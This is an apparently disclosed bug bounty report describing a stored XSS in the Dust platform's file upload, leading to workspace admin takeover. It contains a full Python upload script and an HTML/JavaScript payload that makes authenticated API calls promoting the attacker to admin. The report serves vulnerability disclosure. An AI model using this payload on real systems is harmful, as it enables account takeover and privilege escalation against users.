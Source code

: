 # Stored XSS in File Upload Leads to Privilege Escalation and Full Workspace Takeover

## Report Details
- **Report ID**: 3115705
- **URL**: https://hackerone.com/reports/3115705
- **State**: Closed
- **Severity**: high
- **Submitted**: 2025-04-28T11:26:38.120Z
- **Disclosed**: 2025-05-02T12:01:14.166Z

## Reporter
- **Username**: sjalu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: dust

## Vulnerability Information
## Summary:
A stored cross-site scripting (XSS) vulnerability was discovered in the Dust platform’s file upload functionality.

An attacker can upload a malicious HTML file to a conversation. When another user, including an admin, visits the uploaded file, JavaScript is executed in their authenticated browser session.

This allows an attacker to issue authenticated API requests on behalf of the victim, including:
	•	Promoting their own account to Admin
	•	Downgrading or removing legitimate admins
	•	Accessing and deleting secrets
	•	Full control over the workspace

The attack requires the victim to be a member of the same workspace and visit the malicious file URL. Once triggered, the attacker can fully compromise the workspace.

## Steps To Reproduce:

  1. Set up a workspace where you are admin.
 2. Invite a dummy account with the normal member role.
  3. Upload the malicious file on the dummy account using the Python script below. Use the HTML found at the bottom for upload.
```python
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

cookies = {
    'appSession': '<dummy_account_session>',
}

json_data = {
    'contentType': 'text/html',
    'fileName': 'xss_poc.png',
    'fileSize': 7331,
    'useCase': 'conversation'
}

response = requests.post('https://dust.tt/api/w/<workspace_sid>/files', cookies=cookies, json=json_data)
print(response.text)

uploadUrl = response.json()['file']['uploadUrl']

cookies = {
    'appSession': '<dummy_account_session>',
}

m = MultipartEncoder(
    fields={
        'file': (
            'xss_poc.png',  # Filename
            open('Dust/xss.html', 'rb'),  # File object
            'text/html'  # Content-Type
        )
    }
)

headers = {
    'accept': '*/*',
    'accept-language': 'nb-NO,nb;q=0.9,no;q=0.8,nn;q=0.7,en-US;q=0.6,en;q=0.5',
    'cache-control': 'no-cache',
    'content-type': m.content_type,  # This will correctly set boundary
    'origin': 'https://dust.tt',
    'pragma': 'no-cache',
    'priority': 'u=1, i',
    'referer': 'https://dust.tt/w/<workspace_sid>/assistant/new',
    'sec-ch-ua': '"Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"macOS"',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
    'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36',
}

# Make the request
response = requests.post(
    url=uploadUrl,
    headers=headers,
    cookies=cookies,
    data=m  
)

print(f'[*] URL TO SHARE:\n{response.json()["file"]["downloadUrl"]}?action=view')
```
  4. Share the URL with the workspace admin account.
 5. When the victim visits the link, your script runs automatically, promoting the dummy account to Admin. 

HTML File:
```html
<html>
<head>
  <title>PoC - Dust Workspace Takeover</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      margin: 40px;
      background-color: #f8f9fa;
    }
    .container {
      background: white;
      padding: 20px;
      border-radius: 8px;
      box-shadow: 0px 0px 10px rgba(0,0,0,0.1);
    }
    h1 {
      color: #333;
    }
    p {
      color: #555;
    }
  </style>
</head>

<body>
  <div class="container">
    <h1>Proof of Concept - Dust Workspace Admin Takeover</h1>
    <p>When this page is visited by an admin inside a workspace, he'll give the attacker's user ID admin privileges. The attacker can then manually de-rank the former admin to a regualar member.</p>
  </div>

<script>
// Your user ID here (dummy account's ID)
const attackerUserId = '<dummy_id>'; // <-- replace with dummy account ID!

fetch('https://dust.tt/api/user', {
    method: 'GET',
    headers: {
        'accept': '*/*',
        'x-commit-hash': '41c0391',
    },
    credentials: 'include'
})
.then(res => res.json())
.then(userData => {
    if (userData.user && userData.user.workspaces && userData.user.workspaces.length > 0) {
        const workspaceId = userData.user.workspaces[0].sId; // Get workspace ID
        const victimUserId = userData.user.id; // Victim's own ID

        // 1. Promote attacker to admin
        fetch(`https://dust.tt/api/w/${workspaceId}/members/${attackerUserId}`, {
            method: 'POST',
            headers: {
                'content-type': 'application/json',
                'accept': '*/*',
                'x-commit-hash': '41c0391',
            },
            credentials: 'include',
            body: JSON.stringify({
                role: "admin"
            })
        });

        alert(`PWNED\n\nVictim Username: ${userData.user.username}\nVictim Email: ${userData.user.email}`);
    }
});
</script>
</body>
</html>
```

## Impact

This vulnerability allows an attacker to execute arbitrary JavaScript in the browser of any user within the same workspace who visits a malicious link. Through this, the attacker can perform any actions on behalf of the victim user, leveraging their active session without needing to steal or view the session cookie itself. An attacker view  (only key, not value - value is hidden for everyone) and delete private secrets, access internal data, modify settings, and if the victim has administrative privileges, escalate their own account to an admin role and revoke admin rights from others. This results in a full compromise of the user account, potential privilege escalation, and takeover of the entire workspace. The overall security impact is critical.

## Attachments
No attachments
